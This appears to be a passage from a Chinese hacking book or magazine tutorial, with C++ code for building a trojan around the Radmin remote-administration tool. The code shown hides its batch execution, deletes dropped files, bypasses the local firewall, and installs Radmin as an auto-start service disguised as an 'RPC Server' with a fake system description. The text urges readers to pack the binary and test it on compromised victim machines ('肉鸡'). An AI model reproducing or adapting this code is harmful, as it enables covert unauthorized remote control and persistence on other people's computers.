        GetExitCodeProcess(pi.hProcess, &dwExitCode);
        CloseHandle(pi.hProcess);
    }
    else
    {
        CFile::Remove("c:\\windows\\system32\\cmd.bat");
        return;
    }
    CFile::Remove("c:\\windows\\system\\radmin.reg");
    CFile::Remove("c:\\windows\\system\\Firewall.reg");
    CFile::Remove("c:\\windows\\system32\\cmd.bat");//删除无用文件
}
```

以上批处理在执行时不会跳出黑乎乎的 CMD 窗口，因为程序隐藏了进程的执行，这样肉鸡就不会发觉了。

# 将 radmin 注册为服务，启动程序

```cpp
void RegisterService()
{
    SC_HANDLE schSCManager;
    if(!(schSCManager = OpenSCManager(NULL, NULL,
        SC_MANAGER_ALL_ACCESS)))
        return;
    SC_HANDLE schService = CreateService(schSCManager,
        "RPCServer", //服务名称
        "Remote Procedure Call Server (RPCServer)", //显示名称
        SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
        SERVICE_AUTO_START, //以自动方式开始
        SERVICE_ERROR_NORMAL,
        "c:\\windows\\system32\\r_server.exe \\/service", //服务执行程序的路径
        NULL, NULL, NULL, NULL, NULL);
    if(schService == NULL)
        CloseServiceHandle(schService);
    SERVICE_DESCRIPTION description;
    description.lpDescription = "为提供终结点映射程序(endpoint mapper)以及其它 RPC 服务而服务。";//服务表述
    ChangeServiceConfig2(schService, SERVICE_CONFIG_DESCRIPTION,
        &description);
    StartService(schService, NULL, NULL); //启动服务
    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
}
```

# 主程序结构

```cpp
void main()
{
    ExtractResource(); //释放资源
    BreakFireWall(); //突破本地防火墙
    WriteCMD(); //写脚本导入注册表信息
    RegisterService(); //将 radmin 注册为服务并启动 radmin 服务
}
```

# 总结

程序的总体结构非常清晰，代码实现部分也非常易懂，函数各司其职，有机结合，最终实现了自己的 radmin 木马。还等什么，赶紧对它加个压缩壳缩小体积，然后找肉鸡试验一下吧。

本程序编写平台为 Microsoft Visual C++ 6.0（SP6），SDK 版本为 Windows Server 2003 SP1 SDK。

# 编辑点评

用 VC 实现了打包 Radmin，但是小编偶的感觉好像还是脚本方便一些，不过本文作者的想法还是不错的，可以起到抛砖引玉的作用。

简介：

隐秘 Hack 内幕吹响集结号进攻！由数据库撕开缺口，见招拆招令其系统不设防，经典手法齐上阵突破核心，以对手视角看待网络安全，抽丝剥茧的具体案例剖析，历数渗透技术十八般绝活。

定价：32 元